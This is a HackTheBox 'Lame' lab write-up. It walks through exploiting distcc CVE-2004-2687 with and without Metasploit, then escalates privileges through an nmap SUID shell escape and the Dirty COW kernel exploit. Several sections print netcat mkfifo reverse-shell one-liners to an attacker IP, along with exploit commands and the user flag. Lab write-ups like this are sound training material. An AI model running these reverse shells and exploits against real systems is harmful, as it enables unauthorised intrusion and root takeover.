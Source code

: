 ```yaml
---
title: HackTheBox - Lame 
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-17
tags: [linux-priv-esc/kernel-exploit]
img_path: /Writeups/HackTheBox/Linux/Lame/images/
image:
  src: Pasted%20image%2020220817005744.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
HackTheBox Lame marks the beginning of me trying to complete TJNull's OSCP List for HackTheBox.

This machine begins w/ nmap detecting a service exploit for distcc v1 that allows command execution, allowing us to obtain daemon user/shell.

There are 2 privilege escalation techniques used in this machine, a SUID GTFOBin and a kernel exploit.

---

| Column       | Details    |
| ------------ | ---------- |
| Box Name     | Lame       |
| IP           | 10.10.10.3 |
| Points       | -          |
| Difficulty   | Easy       |
| Creator      | [ch4p](https://www.hackthebox.com/home/users/profile/1)         |
| Release Date |  14-March-2018          |


# Recon

## TCP/139,445 (SMB)
### Enum4linux
- Enumerated some users
	```
	┌──(root💀kali)-[~/htb/lame]
	└─# cat enum4linux_users | grep username
	  username: root
	  username: daemon
	  username: bin
	  username: sys
	  username: sync
	  username: games
	  username: man
	  username: lp
	  username: mail
	  username: news
	  username: uucp
	  username: proxy
	  username: www-data
	  username: backup
	  username: list
	  username: irc
	  username: gnats
	  username: libuuid
	  username: dhcp
	  username: syslog
	  username: klog
	  username: sshd
	  username: bind
	  username: postfix
	  username: ftp
	  username: postgres
	  username: mysql
	  username: tomcat55
	  username: distccd
	  username: telnetd
	  username: proftpd
	  username: msfadmin
	  username: user
	  username: service
	  username: nobody
	
	```

### SMBMap
- Found a fileshare `/tmp`
	```
	[+]IP:10.10.10.3:445	Name:10.10.10.3
	Disk	Permissions	Comment
	----	-----------	-------
	print$	NOACCESS	PrinterDrivers
	tmp	    READ,WRITE	ohnoes!
	opt	    NOACCESS	
	IPC$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	ADMIN$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	```
	- `/tmp` - `RW`


## TCP/3632
### NMAP
```
PORT     STATE SERVICE REASON         VERSION
3632/tcp open  distccd syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://distcc.github.io/security.html
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 16 22:28:52 2022 -- 1 IP address (1 host up) scanned in 18.03 seconds
```
- Vulnerable to RCE exploit


# Initial Foothold

## TCP/3632 - distcc RCE exploit w/ Metasploit
1. Launch `msfconsole`
2. Search for `distcc` and use `unix/misc/distcc_exec`
	```
	msf6 use unix/misc/distcc_exec
	msf6 exploit(unix/misc/distcc_exec) > options
	```
3. Set `OPTIONS`
	1. Set `RHOSTS`
	```
	msf6 exploit(unix/misc/distcc_exec) > set RHOSTS $ip
	RHOSTS => $ip
	```
	2. Set `Payload`
	```
	msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
	```
	3. Set `LHOST`
	```
	msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.2
	LHOST => 10.10.14.2
	```
4. Exploit
	![](Pasted%20image%2020220816230119.png)

## TCP/3632 - distcc RCE exploit w/o Metasploit
1. Google `distcc exploit -lame`
	- To avoid spoilers
2. Found a [github exploit](https://github.com/angelpimentell/distcc_cve_2004-2687_exploit/blob/main/distcc_cve-2004-2687_exploit.py)
3. Exploit
	![](Pasted%20image%2020220816230329.png)
4. This shell is limited, stuck in `/tmp` directory, invoke another reverse shell to obtain a more stable shell
	```
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4242 >/tmp/f
	
	┌──(root💀kali)-[~/htb/lame]
	└─# nc -nvlp 4242
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4242
	Ncat: Listening on 0.0.0.0:4242
	Ncat: Connection from 10.10.10.3.
	Ncat: Connection from 10.10.10.3:48838.
	sh: no job control in this shell
	sh-3.2$ id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
	
	```
5. User Flag
	```
	daemon@lame:/home$ find . 2>/dev/null | grep user
	./makis/user.txt
	
	daemon@lame:/home$ cat ./makis/user.txt
	0bfd0837e923142a01b6ece77f3d6b97
	
	```


# Privilege Escalation

## Root - Via SUID GTFOBin
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220817002733.png)
	- `nmap` has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/nmap/#shell)
2. Exploit 
	```
	daemon@lame:/tmp$ /usr/bin/nmap --interactive
	nmap> !rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4444 >/tmp/f
	
	```
	![](Pasted%20image%2020220817003037.png)
4. Root obtained
	![](Pasted%20image%2020220817003133.png)

## Root - Via Kernel Exploit
1. Check `kernel` version
	```
	daemon@lame:/tmp$ uname -a
	Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
	```
	- `Linux lame 2.6.24-16-server`
	- Vulnerable to [`2.6.22 < 3.9 - 'Dirty COW'`](https://www.exploit-db.com/exploits/40839)
2. Transfer [exploit](https://www.exploit-db.com/exploits/40839) to target
3. Exploit
	```
	gcc -pthread dirty.c -o dirty -lcrypt
	./dirty
	```
	![](Pasted%20image%2020220817005454.png)
4. SSH w/ `firefart:password`
	![](Pasted%20image%2020220817005556.png)
	
